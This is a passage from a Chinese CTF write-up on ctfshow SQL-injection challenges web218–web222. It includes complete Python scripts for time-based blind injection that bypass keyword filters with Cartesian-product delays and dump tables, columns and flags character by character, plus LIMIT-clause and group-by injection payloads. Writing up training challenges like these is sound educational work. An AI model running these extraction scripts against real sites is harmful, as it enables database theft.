time&#x27;</span>&#125;</span>:&quot;</span>,Style.BRIGHT+<span class="string">f&quot;<span class="subst">&#123;endTime:<span class="number">.3</span>f&#125;</span>&quot;</span>,<span class="string">&quot;\t &quot;</span>,Back.GREEN+<span class="string">&#x27;flag&#x27;</span>,<span class="string">&quot;:&quot;</span>,Style.BRIGHT+<span class="string">f&#x27;<span class="subst">&#123;flag&#125;</span>&#x27;</span>,Style.RESET_ALL + <span class="string">&quot;-&quot;</span>)</span><br><span class="line">                <span class="built_in">print</span>(Style.RESET_ALL + <span class="string">&quot;-&quot;</span>)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">else</span>:</span><br><span class="line">                mf += <span class="number">1</span></span><br><span class="line"></span><br><span class="line">                <span class="comment"># print(payload.format(i,mid))</span></span><br><span class="line">        <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span>+flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData4</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3.0</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,mode=<span class="number">1</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        mf = <span class="number">0</span></span><br><span class="line">        <span class="keyword">for</span> mid <span class="keyword">in</span> flagStrDict:</span><br><span class="line"></span><br><span class="line">            data = &#123;</span><br><span class="line">                <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(i,mid),</span><br><span class="line">                <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">            &#125;</span><br><span class="line"></span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                t = time.time()</span><br><span class="line">                req = requests.post(url=urls, headers=headers, data=data,timeout=timeout)</span><br><span class="line">                endTime = time.time() - t</span><br><span class="line">                time.sleep(<span class="number">0.3</span>)</span><br><span class="line">                mf += <span class="number">1</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;<span class="built_in">int</span>(endTime)&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i,mid)&#125;</span>&quot;</span>)</span><br><span class="line">                <span class="comment"># print(req.content)</span></span><br><span class="line">            <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                <span class="keyword">try</span>:</span><br><span class="line">                    t = time.time()</span><br><span class="line">                    req = requests.post(url=urls, headers=headers, data=data, timeout=timeout)</span><br><span class="line">                    endTime = time.time() - t</span><br><span class="line">                    time.sleep(<span class="number">0.3</span>)</span><br><span class="line">                    mf += <span class="number">1</span></span><br><span class="line">                    <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;<span class="built_in">int</span>(endTime)&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i, mid)&#125;</span>&quot;</span>)</span><br><span class="line">                    <span class="comment"># print(req.content)</span></span><br><span class="line">                <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                    <span class="keyword">try</span>:</span><br><span class="line">                        t = time.time()</span><br><span class="line">                        req = requests.post(url=urls, headers=headers, data=data, timeout=timeout)</span><br><span class="line">                        endTime = time.time() - t</span><br><span class="line">                        time.sleep(<span class="number">0.3</span>)</span><br><span class="line">                        mf += <span class="number">1</span></span><br><span class="line">                        <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;<span class="built_in">int</span>(endTime)&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i, mid)&#125;</span>&quot;</span>)</span><br><span class="line">                        <span class="comment"># print(req.content)</span></span><br><span class="line">                    <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                        <span class="keyword">if</span> mode == <span class="number">1</span>:</span><br><span class="line">                            flag += mid</span><br><span class="line">                            <span class="keyword">break</span></span><br><span class="line">                        <span class="keyword">elif</span> mode == <span class="number">2</span>:</span><br><span class="line">                            flag += <span class="built_in">chr</span>(<span class="built_in">int</span>(mid, <span class="number">16</span>))</span><br><span class="line">                            <span class="keyword">break</span></span><br><span class="line">        <span class="built_in">print</span>(flag)</span><br><span class="line"></span><br><span class="line">                <span class="comment"># print(payload.format(i,mid))</span></span><br><span class="line">        <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span>+flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line">    flagStrDict3 = <span class="string">&quot;id,flagah,infoctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    flagStrDict4 = <span class="string">&quot;id,flagno_0123456789bcehjkmpqrstuvwxyz&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web218</span>():</span><br><span class="line">        url = <span class="string">&quot;http://736e0672-8f98-43d0-ae4d-3660b56cfda7.challenge.ctf.show/&quot;</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxc&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select(group_concat(flagaac))from(ctfshow_flagxc)&quot;</span></span><br><span class="line"></span><br><span class="line">        timeOutFunction = <span class="string">&quot;(SELECT COUNT(*) FROM information_schema.tables a, information_schema.tables b, information_schema.tables c)&quot;</span></span><br><span class="line"></span><br><span class="line">        <span class="comment"># ctfshow_flagxc,ctfshow_info</span></span><br><span class="line">        <span class="comment"># GetData2(url,flag=&#x27;ctfshow_&#x27;,start=9,payload=&quot;if(mid((&quot; + payload1 + &quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,&quot;+timeOutFunction+&quot;,1)&quot;,flagStrDict=flagStrDict1,timeout=1.7)</span></span><br><span class="line">        <span class="comment"># id,flagaac,info</span></span><br><span class="line">        <span class="comment"># GetData2(url,payload=&quot;if(mid((&quot; + payload2 + &quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,&quot;+timeOutFunction+&quot;,1)&quot;,flagStrDict=flagStrDict4,timeout=1.7)</span></span><br><span class="line">        <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">        ctfshow&#123;3e19223f-d564-4aae-945e-55a2656f1c27&#125;</span></span><br><span class="line"><span class="string">        ctfshow&#123;3e192230-d564-4aae-945e-56a2656f1c27&#125;</span></span><br><span class="line"><span class="string">        ctfshow&#123;3e19223f-d564-4aae-945e-56a2656f1c27&#125; </span></span><br><span class="line"><span class="string">        &quot;&quot;&quot;</span></span><br><span class="line">        GetData4(url,flag=<span class="string">&#x27;ctfshow&#123;&#x27;</span>, start=<span class="number">9</span>, end=<span class="number">55</span>,payload=<span class="string">&quot;if(mid((&quot;</span> + payload3 + <span class="string">&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,&quot;</span>+timeOutFunction+<span class="string">&quot;,1)&quot;</span>,flagStrDict=flagStrDict2,timeout=<span class="number">1.7</span>)</span><br><span class="line"></span><br><span class="line">    web218()</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>多跑两次，flag有一定概率会出错，测试的时候多测试两次不会吃亏。</p>
<h1 id="web219"><a href="#web219" class="headerlink" title="web219"></a>web219</h1><h2 id="原始信息-127"><a href="#原始信息-127" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">where id = (<span class="variable">$id</span>);</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/sleep|benchmark|rlike/i&#x27;</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125;   </span><br></pre></td></tr></table></figure>

<h2 id="解题-122"><a href="#解题-122" class="headerlink" title="解题"></a>解题</h2><p>沿用上面脚本即可</p>
<h1 id="web220"><a href="#web220" class="headerlink" title="web220"></a>web220</h1><h2 id="原始信息-128"><a href="#原始信息-128" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">where id = (<span class="variable">$id</span>);</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i&#x27;</span>,<span class="variable">$str</span>);</span><br><span class="line">&#125;   </span><br></pre></td></tr></table></figure>

<h2 id="解题-123"><a href="#解题-123" class="headerlink" title="解题"></a>解题</h2><p>首先考虑时间盲注，依然还是只能使用笛卡尔积。</p>
<p>其次考虑其它payload点位的限制。</p>
<p>上次的payload是带有<code>concat/mid</code> 两种的，而这两种恰巧对应组合和切割两种情况。</p>
<p><code>concat</code> 对应限制 <code>group_concat</code> 列组合方法，用 <code>limit &#123;&#125; 1</code> 绕过。 <code>&#123;&#125;</code>  是爆破的第 <code>0</code> 行到第 <code>n</code> 行。</p>
<p><code>mid</code> 采用 <code>left/right</code> 两种的其中一种进行绕过。这俩都是切割函数，但是没有 <code>mid</code> 的按位置切割，只能从头切割到末尾/从末尾切割到头。</p>
<blockquote>
<p>注意：这里还是得注意下网络的延迟问题。延迟测算好后再用payload。</p>
</blockquote>
<p> 下面是脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time,concurrent.futures</span><br><span class="line"><span class="keyword">from</span> colorama <span class="keyword">import</span> Fore, Back, Style, init</span><br><span class="line">init()</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData6</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3.0</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,mode=<span class="number">1</span></span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    单线程爆破</span></span><br><span class="line"><span class="string">    :param url:目标url</span></span><br><span class="line"><span class="string">    :param payload:payload模板</span></span><br><span class="line"><span class="string">    :param flagStrDict:flag字典</span></span><br><span class="line"><span class="string">    :param flag:flag</span></span><br><span class="line"><span class="string">    :param timeout:超时时间</span></span><br><span class="line"><span class="string">    :param start:开始</span></span><br><span class="line"><span class="string">    :param end:结束</span></span><br><span class="line"><span class="string">    :param mode:模式</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 容错数据包次数</span></span><br><span class="line">    thresholdNumber = <span class="number">4</span></span><br><span class="line"></span><br><span class="line">    flagTest = <span class="string">&#x27;&#x27;</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line">	<span class="comment"># 控制查表的爆破行</span></span><br><span class="line">    <span class="keyword">for</span> rows <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">10</span>):</span><br><span class="line">        flagTemp = <span class="string">&#x27;&#x27;</span></span><br><span class="line">        <span class="comment"># flagEnd = flagTemp</span></span><br><span class="line">        <span class="comment"># 控制查表爆破行中的列数据</span></span><br><span class="line">        <span class="keyword">for</span> columns <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">            mf = <span class="number">0</span></span><br><span class="line">            <span class="comment"># 控制查表爆破列的数据匹配</span></span><br><span class="line">            <span class="keyword">for</span> strDict <span class="keyword">in</span> flagStrDict:</span><br><span class="line">                <span class="comment"># 使用十六进制的形式避免出现非预期情况</span></span><br><span class="line">                payloadEd = <span class="string">&#x27;0x&#x27;</span>+<span class="string">&#x27;&#x27;</span>.join([(<span class="built_in">hex</span>(<span class="built_in">ord</span>(i))).replace(<span class="string">&#x27;0x&#x27;</span>,<span class="string">&#x27;&#x27;</span>) <span class="keyword">for</span> i <span class="keyword">in</span> flagTemp+strDict])</span><br><span class="line">                data = &#123;</span><br><span class="line">                    <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(rows,columns,payloadEd),</span><br><span class="line">                    <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">                &#125;</span><br><span class="line">                <span class="comment"># 容错变量</span></span><br><span class="line">                thresholds = <span class="number">0</span></span><br><span class="line"></span><br><span class="line">                <span class="comment"># 使用数据包阈值来过滤废包</span></span><br><span class="line">                <span class="comment"># 经过测试，当前网络环境当中延迟1.7是笛卡尔积的极限。具体测试方法是把数据包转发到BP当中，尝试使用笛卡尔积直接发数据测试极限时间</span></span><br><span class="line"></span><br><span class="line">                t1 = time.time()</span><br><span class="line"></span><br><span class="line">                <span class="keyword">def</span> <span class="title function_">miniNumber</span>():</span><br><span class="line">                    t = time.time()</span><br><span class="line">                    requests.post(url=urls, headers=headers, data=data, timeout=timeout)</span><br><span class="line">                    endTime = time.time() - t</span><br><span class="line">                    time.sleep(<span class="number">0.3</span>)</span><br><span class="line"></span><br><span class="line">                    <span class="built_in">print</span>(Style.BRIGHT + <span class="string">&#x27;Find time&#x27;</span>, end=<span class="string">&quot;:&quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.RESET_ALL + <span class="string">f&quot;<span class="subst">&#123;endTime:<span class="number">.3</span>f&#125;</span> s \t &quot;</span>, end=<span class="string">&quot;&quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.BRIGHT + <span class="string">&#x27;And find payload&#x27;</span>, end=<span class="string">&#x27;:&#x27;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.RESET_ALL + <span class="string">f&quot;<span class="subst">&#123;payload.<span class="built_in">format</span>(rows, columns, payloadEd)&#125;</span>&quot;</span>)</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">                <span class="keyword">try</span>:</span><br><span class="line">                    miniNumber()</span><br><span class="line"></span><br><span class="line">                <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                    <span class="comment"># 经过第一层超时后进行容错处理</span></span><br><span class="line">                    <span class="keyword">for</span> threshold <span class="keyword">in</span> <span class="built_in">range</span>(thresholdNumber):</span><br><span class="line">                        <span class="keyword">try</span>:</span><br><span class="line">                            miniNumber()</span><br><span class="line"></span><br><span class="line">                        <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                            thresholds += <span class="number">1</span></span><br><span class="line">                            <span class="built_in">print</span>(Fore.RED + <span class="string">&#x27;the number&#x27;</span>,end=<span class="string">&quot; : &quot;</span>)</span><br><span class="line">                            <span class="built_in">print</span>(Style.BRIGHT + <span class="string">f&quot;<span class="subst">&#123;thresholds&#125;</span> &quot;</span>,end=<span class="string">&quot;&quot;</span>)</span><br><span class="line">                            <span class="built_in">print</span>(Style.RESET_ALL + <span class="string">&quot;&quot;</span>)</span><br><span class="line"></span><br><span class="line">                endTime = time.time() - t1</span><br><span class="line"></span><br><span class="line">                <span class="keyword">if</span> thresholds == thresholdNumber:</span><br><span class="line">                    <span class="comment"># 容错成功后组合flag字符串/关键字符串</span></span><br><span class="line">                    flagTemp += strDict</span><br><span class="line">                    <span class="built_in">print</span>(<span class="string">f&quot;<span class="subst">&#123;Back.GREEN + <span class="string">&#x27;index&#x27;</span>&#125;</span>: <span class="subst">&#123;rows&#125;</span> <span class="subst">&#123;columns&#125;</span>&quot;</span>, end=<span class="string">&quot;\t&quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(<span class="string">f&quot;<span class="subst">&#123;Back.GREEN + <span class="string">&#x27;all time&#x27;</span>&#125;</span>&quot;</span>,end=<span class="string">&quot;:&quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.BRIGHT + <span class="string">f&quot;<span class="subst">&#123;endTime:<span class="number">.3</span>f&#125;</span>&quot;</span>,end=<span class="string">&quot;\t &quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Back.GREEN + <span class="string">&#x27;flag&#x27;</span>, end=<span class="string">&quot;:&quot;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.BRIGHT + <span class="string">f&#x27;<span class="subst">&#123;flagTemp&#125;</span>&#x27;</span>,end=<span class="string">&#x27;&#x27;</span>)</span><br><span class="line">                    <span class="built_in">print</span>(Style.RESET_ALL + <span class="string">&quot;&quot;</span>)</span><br><span class="line">                    <span class="keyword">break</span></span><br><span class="line">                <span class="keyword">else</span>:</span><br><span class="line">                    mf += <span class="number">1</span></span><br><span class="line"></span><br><span class="line">            <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">                <span class="comment">#列数据结束标志</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span> + flagTemp)</span><br><span class="line">                <span class="built_in">print</span>(<span class="string">&#x27;all :&#x27;</span>,flagTest)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">        <span class="keyword">if</span> <span class="string">&#x27;&#x27;</span> == flagTemp:</span><br><span class="line">            <span class="comment">#行数据结束标志</span></span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&#x27;flag is :&#x27;</span> + flagTest)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            flagTest += flagTemp <span class="keyword">if</span> flagTest == <span class="string">&#x27;&#x27;</span> <span class="keyword">else</span> <span class="string">&#x27;,&#x27;</span>+flagTemp</span><br><span class="line">            <span class="built_in">print</span>(flagTest)</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># 字符串字典</span></span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line">    flagStrDict4 = <span class="string">&quot;id,flagno_0123456789bcehjkmpqrstuvwxyz&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web220</span>():</span><br><span class="line">        url = <span class="string">&quot;http://8f817a4c-a121-4798-8e3c-35669806ab66.challenge.ctf.show/&quot;</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(table_name)from(information_schema.tables)where(table_schema=database()) limit &#123;&#125;,1&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(column_name)from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxcac&#x27;) limit &#123;&#125;,1&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select(flagaabcc)from(ctfshow_flagxcac) limit &#123;&#125;,1&quot;</span></span><br><span class="line">        <span class="built_in">print</span>(url)</span><br><span class="line">        <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">        payload</span></span><br><span class="line"><span class="string">        if(left((select(xxx)from(yyyy0)limit &#123;3&#125;,1),&#123;1&#125;)=&#x27;&#123;2&#125;&#x27;,?,1)</span></span><br><span class="line"><span class="string">        切割的办法：</span></span><br><span class="line"><span class="string">        假设：a=ctfshow_flagxca</span></span><br><span class="line"><span class="string">        left(a,1) = c</span></span><br><span class="line"><span class="string">        left(a,2) = ct</span></span><br><span class="line"><span class="string">        left(a,3) = ctf</span></span><br><span class="line"><span class="string">        </span></span><br><span class="line"><span class="string">        </span></span><br><span class="line"><span class="string">        </span></span><br><span class="line"><span class="string">        3 点位，列点位1个，行点位2个        该修改爆破的框架了</span></span><br><span class="line"><span class="string">        &quot;&quot;&quot;</span></span><br><span class="line">        timeOutFunction = <span class="string">&quot;(SELECT COUNT(*) FROM information_schema.tables a, information_schema.tables b, information_schema.tables c)&quot;</span></span><br><span class="line"></span><br><span class="line">        <span class="comment"># 爆库 ctfshow_flagxcacetscstxc,ctfshow_info</span></span><br><span class="line">        <span class="comment"># GetData6(url,flag=&#x27;&#x27;,start=1,payload=&quot;if(left((&quot; + payload1 + &quot;),&#123;&#125;)=&#123;&#125;,&quot;+timeOutFunction+&quot;,1)&quot;,flagStrDict=flagStrDict1,timeout=1.7)</span></span><br><span class="line">        <span class="comment"># 爆列 id,flagaabcc,info</span></span><br><span class="line">        <span class="comment"># GetData6(url,flag=&#x27;&#x27;,start=1,payload=&quot;if(left((&quot; + payload2 + &quot;),&#123;&#125;)=&#123;&#125;,&quot;+timeOutFunction+&quot;,1)&quot;,flagStrDict=flagStrDict4,timeout=1.7)</span></span><br><span class="line">        <span class="comment"># 获取flag</span></span><br><span class="line">        GetData6(url,flag=<span class="string">&#x27;&#x27;</span>,start=<span class="number">1</span>,payload=<span class="string">&quot;if(left((&quot;</span> + payload3 + <span class="string">&quot;),&#123;&#125;)=&#123;&#125;,&quot;</span>+timeOutFunction+<span class="string">&quot;,1)&quot;</span>,flagStrDict=flagStrDict2,timeout=<span class="number">1.7</span>)</span><br><span class="line">        <span class="comment"># test(url)</span></span><br><span class="line">    web220()</span><br></pre></td></tr></table></figure>


<h1 id="web221-limit注入"><a href="#web221-limit注入" class="headerlink" title="web221-limit注入"></a>web221-limit注入</h1><h2 id="原始信息-129"><a href="#原始信息-129" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//分页查询</span></span><br><span class="line"><span class="variable">$sql</span> = select * <span class="keyword">from</span> ctfshow_user <span class="title function_ invoke__">limit</span> (<span class="variable">$page</span>-<span class="number">1</span>)*<span class="variable">$limit</span>,<span class="variable">$limit</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>很安全，不需要过滤</span></span><br><span class="line"><span class="comment">//拿到数据库名字就算你赢</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-124"><a href="#解题-124" class="headerlink" title="解题"></a>解题</h2><p>难怪说很安全，本地测试limit都直接报错，不安全都不行啊……</p>
<p>具体参照：<a target="_blank" rel="noopener" href="https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html#reply">大牛的博客</a></p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="operator">/</span>api<span class="operator">/</span>?limit<span class="operator">=</span><span class="number">1</span> <span class="keyword">procedure</span> analyse(extractvalue(rand(),concat(<span class="number">0x3a</span>,database(),<span class="number">0x3a</span>)),<span class="number">1</span>)<span class="operator">&amp;</span>page<span class="operator">=</span><span class="number">1</span></span><br></pre></td></tr></table></figure>


<h1 id="web222-group-by"><a href="#web222-group-by" class="headerlink" title="web222-group by"></a>web222-group by</h1><h2 id="原始信息-130"><a href="#原始信息-130" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//分页查询</span></span><br><span class="line"><span class="variable">$sql</span> = select * <span class="keyword">from</span> ctfshow_user group by <span class="variable">$username</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>很安全，不需要过滤</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-125"><a href="#解题-125" class="headerlink" title="解题"></a>解题</h2><p>group by基本上没过滤什么，能使用if+布尔注入直接绕过。</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">getDate</span>(<span class="params">url,payload,strDict,start=<span class="number">1</span>,end=<span class="number">50</span>,flag=<span class="string">&#x27;&#x27;</span></span>):</span><br><span class="line"></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded&quot;</span></span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        temp = flag</span><br><span class="line">        importNumbers = <span class="number">4</span></span><br><span class="line"></span><br><span class="line">        <span class="keyword">for</span> j <span class="keyword">in</span> strDict:</span><br><span class="line">            p = payload.<span class="built_in">format</span>(i, j)</span><br><span class="line">            t = time.time()</span><br><span class="line">            r = requests.get(url + p, headers=headers)</span><br><span class="line">            tEnd = time.time() - t</span><br><span class="line">            text = r.text.encode(<span class="string">&#x27;gbk&#x27;</span>).decode(<span class="string">&#x27;unicode_escape&#x27;</span>)</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">f&#x27;time:<span class="subst">&#123;tEnd:<span class="number">.3</span>f&#125;</span>\tpayload is:<span class="subst">&#123;p&#125;</span>&#x27;</span>)</span><br><span class="line">            <span class="keyword">if</span> <span class="built_in">len</span>(text) &lt;=<span class="number">91</span> <span class="keyword">and</span> <span class="built_in">bool</span>(text):</span><br><span class="line">                flag += j</span><br><span class="line">                <span class="built_in">print</span>(<span class="built_in">bool</span>(text),flag)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">        